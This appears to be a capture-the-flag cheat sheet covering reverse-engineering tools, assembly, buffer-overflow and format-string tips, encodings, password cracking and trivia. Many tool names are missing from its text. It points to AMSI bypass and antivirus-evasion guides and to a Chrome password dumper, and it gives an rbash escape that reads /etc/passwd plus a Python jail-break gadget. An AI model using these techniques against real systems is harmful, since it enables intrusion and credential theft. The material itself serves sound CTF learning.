i. e. `aws s3 cp --recursive --no-sign-request s3://tamuctf .`
Reverse Engineering
-
Easy command-line tools to see some of the code being executed as you follow through a binary. Usage:
ltrace ./binary -
Hopper Disassembler, the reverse engineering tool that lets you disassemble, decompile and debug your applications.
-
Clean and easy with multithreaded analysis. Support multiple architectures, platforms, and compilers.
-
Fast and powerful debugger for UNIX system. More powerful if this tool is equipped with PEDA.
-
It's one of popular debugger and disassembler tool with rich of features, cross platform, multi-processor disassembler.
-
Portable tool for hex editor, binary analysis, disassembler, debugger, etc.
-
New RE tool developed by NSA with the same feature as IDA
Compiling & running ASM code:
You can convert ASM functions from assembly and run them as C functions like the following:
asm4.S.intel_syntax noprefix .global asm4 asm4: push ebp mov ebp,esp push ebx sub esp,0x10 mov DWORD PTR [ebp-0x10],0x27d mov DWORD PTR [ebp-0xc],0x0 jmp label2 label1: add DWORD PTR [ebp-0xc],0x1 label2: mov edx,DWORD PTR [ebp-0xc] mov eax,DWORD PTR [ebp+0x8] add eax,edx movzx eax,BYTE PTR [eax] test al,al jne label1 mov DWORD PTR [ebp-0x8],0x1 jmp label3 label4: mov edx,DWORD PTR [ebp-0x8] mov eax,DWORD PTR [ebp+0x8] add eax,edx movzx eax,BYTE PTR [eax] movsx edx,al mov eax,DWORD PTR [ebp-0x8] lea ecx,[eax-0x1] mov eax,DWORD PTR [ebp+0x8] add eax,ecx movzx eax,BYTE PTR [eax] movsx eax,al sub edx,eax mov eax,edx mov edx,eax mov eax,DWORD PTR [ebp-0x10] lea ebx,[edx+eax*1] mov eax,DWORD PTR [ebp-0x8] lea edx,[eax+0x1] mov eax,DWORD PTR [ebp+0x8] add eax,edx movzx eax,BYTE PTR [eax] movsx edx,al mov ecx,DWORD PTR [ebp-0x8] mov eax,DWORD PTR [ebp+0x8] add eax,ecx movzx eax,BYTE PTR [eax] movsx eax,al sub edx,eax mov eax,edx add eax,ebx mov DWORD PTR [ebp-0x10],eax add DWORD PTR [ebp-0x8],0x1 label3: mov eax,DWORD PTR [ebp-0xc] sub eax,0x1 cmp DWORD PTR [ebp-0x8],eax jl label4 mov eax,DWORD PTR [ebp-0x10] add esp,0x10 pop ebx pop ebp retasm4.c#include<stdio.h> extern int asm4(char* s); int main(){ char *str = "picoCTF_d899a"; printf("%X", asm4(str)); return 0; }bash$ gcc -m32 -o a asm4.c asm4.S $ ./a
PowerShell
-
A PowerShell suite of tools for pentesting. Has support for an ICMP reverse shell!
-
HUGE PowerShell library and tool to do a lot of post-exploitation.
Bypass AMSI Anti-Malware Scan Interface
Great tool and guide for anti-virus evasion with PowerShell.
Windows Executables
-
A Python module that examines the headers in a Windows PE (Portable Executable) file.
-
A Windows GUI tool to decompile and reverse engineer .NET binaries
-
A Windows tool to detect common packers, cryptors and compilers for Windows PE
jetBrains .NET decompiler
AutoIT converter
When debugging AutoIT programs, you may get a notification: "This is a compiled AutoIT script". Here is a good thing to use to decode them: https://www.autoitscript.com/site/autoit/downloads/
Python Reversing
-
A small
.exeGUI application that will "decompile" Python bytecode, often seen in.pycextension. The tool runs reliably on Linux with Wine.
Binary Exploitation/pwn
Basic Stack Overflow
Use
readelf -s <binary>to get the location of a function to jump to -- overflow in Python, find offset withdmesg, and jump.printfvulnerabilityA C binary vulnerability, where
printfis used with user-supplied input without any arguments. Hand-made code to exploit and overwrite functions: https://pastebin.com/0r4WGn3D and a video walkthrough explaining: https://www.youtube.com/watch?v=t1LH9D5cuK4-
A good Python module to streamline exploiting a format string vulnerability. THIS IS NOT ALWAYS A GOOD TACTIC...
64-bit Buffer Overflow
64-bit buffer overflow challenges are often difficult because the null bytes get in the way of memory addresses (for the function you want to jump to, that you can usually find with
readelf -s). But, check if whether or not the function address you need starts with the same hex values already on the stack (inrsp). Maybe you only have to write two or three bytes after the overflow, rather than the whole function address.
VisualBasicScript Reversing
Miscellaneous
-
Super useful repo that has a payload for basically every sceario
Punchcards(/Punch cards)
Sometimes it sucks to do these manually, but you can here: http://tyleregeto.com/article/punch-card-emulator
GameBoy ROMS
You have options to run GameBoy ROMs... one is using VisualBoyAdvance, the oher is RetroArch (which is supposedly better):
# VisualBoyAdvance
sudo add-apt-repository universe
sudo apt install visualboyadvance
# RetroArch
sudo add-apt-repository ppa:libretro/stable && sudo apt-get update && sudo apt-get install -y retroarch* libretro-*
References to DICE, or EFF
If your challenges references "EFF" or includes dice in some way, or showcases numbers 1-6 of length 5, try https://www.eff.org/dice. This could refer to a passphrase generated by dice rolls available here: https://www.eff.org/files/2016/07/18/eff_large_wordlist.txt
Base64:
TWFuIGlzIGRpc3Rpbmd1aXNoZWQsIG5vdCBvbmx5IGJ5IGhpcyByZWFzb24sIGJ1dCBieSB0aGlz
IHNpbmd1bGFyIHBhc3Npb24gZnJvbSBvdGhlciBhbmltYWxzLCB3aGljaCBpcyBhIGx1c3Qgb2Yg
dGhlIG1pbmQsIHRoYXQgYnkgYSBwZXJzZXZlcmFuY2Ugb2YgZGVsaWdodCBpbiB0aGUgY29udGlu
dWVkIGFuZCBpbmRlZmF0aWdhYmxlIGdlbmVyYXRpb24gb2Yga25vd2xlZGdlLCBleGNlZWRzIHRo
ZSBzaG9ydCB2ZWhlbWVuY2Ugb2YgYW55IGNhcm5hbCBwbGVhc3VyZS4=
Base32
ORUGS4ZANFZSAYLOEBSXQYLNOBWGKIDPMYQGEYLTMUZTELRANF2CA2LTEB3GS43JMJWGKIDCPEQGY33UOMQG6ZRAMNQXA2LUMFWCA3DFOR2GK4TTEBQW4ZBANVXXEZJAMVYXKYLMOMQHG2LHNZZSAZTPOIQHAYLEMRUW4ZZMEBSXQ5DSME======
Base85:
<~9jqo^BlbD-BleB1DJ+*+F(f,q/0JhKF<GL>Cj@.4Gp$d7F!,L7@<6@)/0JDEF<G%<+EV:2F!,
O<DJ+*.@<*K0@<6L(Df-\0Ec5e;DffZ(EZee.Bl.9pF"AGXBPCsi+DGm>@3BB/F*&OCAfu2/AKY
i(DIb:@FD,*)+C]U=@3BN#EcYf8ATD3s@q?d$AftVqCh[NqF<G:8+EV:.+Cf>-FD5W8ARlolDIa
l(DId<j@<?3r@:F%a+D58'ATD4$Bl@l3De:,-DJs`8ARoFb/0JMK@qB4^F!,R<AKZ&-DfTqBG%G
>uD.RTpAKYo'+CT/5+Cei#DII?(E,9)oF*2M7/c~>
Unicode characters encoding. Includes a lot of seemingly random spaces and chinese characters!
𤇃𢊻𤄻嶜𤄋𤇁𡊻𤄛𤆬𠲻𤆻𠆜𢮻𤆻ꊌ𢪻𤆻邌𤆻𤊻𤅋𤲥𣾻𤄋𥆸𣊻𤅛ꊌ𤆻𤆱炼綻𤋅𤅴薹𣪻𣊻𣽻𤇆𤚢𣺻赈𤇣綹𤻈𤇣𤾺𤇃悺𢦻𤂻𤅠㢹𣾻𤄛𤆓𤦹𤊻𤄰炜傼𤞻𢊻𣲻𣺻ꉌ邹𡊻𣹫𤅋𤇅𣾻𤇄𓎜𠚻𤊻𢊻𤉛𤅫𤂑𤃃𡉌𤵛𣹛𤁐𢉋𡉻𡡫𤇠𠞗𤇡𡊄𡒌𣼻燉𣼋𦄘炸邹㢸𠞻𠦻𡊻𣈻𡈻𣈛𡈛ꊺ𠆼𤂅𣻆𣫃𤮺𤊻𡉋㽻𣺬𣈛𡈋𤭻𤂲𣈻𤭻𤊼𢈛儛𡈛ᔺ
Mac / Macintosh / Apple Hidden Files
.DS_Storeds_store_expOn Mac computers, there is a hidden index file
.DS_Store. You might be able to find it if you have an LFI vulnerability or something of the like. A good tool to track these down on a website is the DS_Store Exposer: https://github.com/lijiejie/ds_store_exp.
Wordsearches
Some CTFs have me solve wordsearchs as part of a challenge (TJCTF 2018). This code is super helpful: https://github.com/robbiebarrat/word-search
"Unflattening" Base64 in lowercase or uppercase
Some time ago we needed to recover the original Base64 string from one that is in all lowercase or all uppercase. Caleb wrote a good script to smartly do this: https://pastebin.com/HprZcHrY
Password-protected Zip Files:
fcrackzipandzip2john.pyUse
15 Puzzle
A sliding puzzle that consists of a 4x4 grid with numbered square tiles, with one missing, set in a random order. It was involved in SharifCTF to determine if a group of these puzzles was solvable: https://theromanxpl0it.github.io/ctf_sharifctf18/fifteenpuzzle/
SETUID Binary Methodology
Don't forget to check "simple" things --- it doesn't need to be a pwn or binary exploitation challenge, keep in mind IT DOES NOT use a secure PATH like
sudo.Chrome Password Dump
A Windows command-line tool to dump passwords saved with Google Chrome. http://securityxploded.com/chrome-password-dump.php
img2txtA command-line tool to convert an image into ASCII for the terminal. Can be installed like so:
sudo apt install -y caca-utils
Strange Symbols/Characters
Some CTFs will try and hide a message on a picture with strange symbols. Try and Google Reverse Image searching these. They may be Egyptian Characters:

Bitcoin
You might see a private Bitcoin key as a base64 encoded SHA256 hash, like this:
NWEyYTk5ZDNiYWEwN2JmYmQwOGI5NjEyMDVkY2FlODg3ZmIwYWNmOWYyNzI5MjliYWE3OTExZmFhNGFlNzc1MQ==
Decoded, it is a hash: `5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751`.
If you can find an AES ECB key along with (usually represented in hex or another encoding), you can decipher like so:
openssl enc -d -aes-256-ecb -in <(printf %s '5a2a99d3baa07bfbd08b961205dcae887fb0acf9f272929baa7911faa4ae7751' | xxd -r -p) -K '6fb3b5b05966fb06518ce6706ec933e79cfaea8f12b4485cba56321c7a62a077'
MCA{I$love$bitcoin$so$much!}
Missing
lsordircommandsIf you cannot run
lsordir, orfindorgrep, to list files you can use
echo *
echo /any/path/*
restricted bash (
rbash) read filesIf you are a restricted shell like
rbashyou can still read any file with some builtin commands likemapfile:
mapfile -t < /etc/passwd
printf "$s\n" "${anything[@]}"
Jail Breaks
Sometimes you're jailed in an environment where you can potentially execute code.
- Python 3
().__class__.__base__.__subclasses__()- Gives access toobjectsubclasses
Trivia
- Trivia Question: a reliable mechanism for websites to remember stateful information. Yummy!
Cookie
- A group of binary-to-text encoding schemes that represent binary data in an ASCII string format by translating it into a radix-64 representation
base64
- This CVE Proof of concept Shows NSA.gov playing "Never Gonna Give You Up," by 1980s heart-throb Rick Astley.
CVE-2020-0601
- The British used this machine to crack the German Enigma machine messages.
Bombe
- What is the Windows LM hash for a blank password?
aad3b435b51404eeaad3b435b51404ee
- for Windows LM hashing, after the password is split into two 7 character chunks, they are used as DES keys to encrypt what string?
KGS!@#$%
- I am the person responsible for stopping one of the worst ransomware. Who am I?
MalwareTech
- I am used by devices for sending error messages. Who am I?
ICMP
- We are a CTF team which is open to everybody. Who are we?
OpenToAll - https://opentoallctf.github.io/